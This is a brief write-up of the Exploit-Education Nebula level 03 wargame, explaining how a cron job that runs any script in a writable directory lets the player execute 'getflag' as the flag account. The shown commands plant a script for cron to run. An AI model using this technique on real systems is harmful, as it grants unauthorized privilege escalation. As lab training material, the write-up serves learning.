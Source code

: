 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 03"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
---
```

### Exploit Education Level 3

## Challenge 
    
Check the home directory of `flag03` and take note of the files there.
There is a `crontab` that is called every couple of minutes.
Crontab is a service that run periodically. In this example the crontab executes the contents of any file inside
crontab.d directory

## Vulnerability
We can run any commands by writing the commands to a file in the crontab directory and writing the output to a file
```
level03@nebula:echo 'getflag >>/tmp/flag.txt' > run.sh
level03@nebula:/tmp$ ls
flag.txt  VMwareDnD  vmware-root
level03@nebula:/tmp$ cat flag.txt
You have successfully executed getflag on a target account
```
### Solved

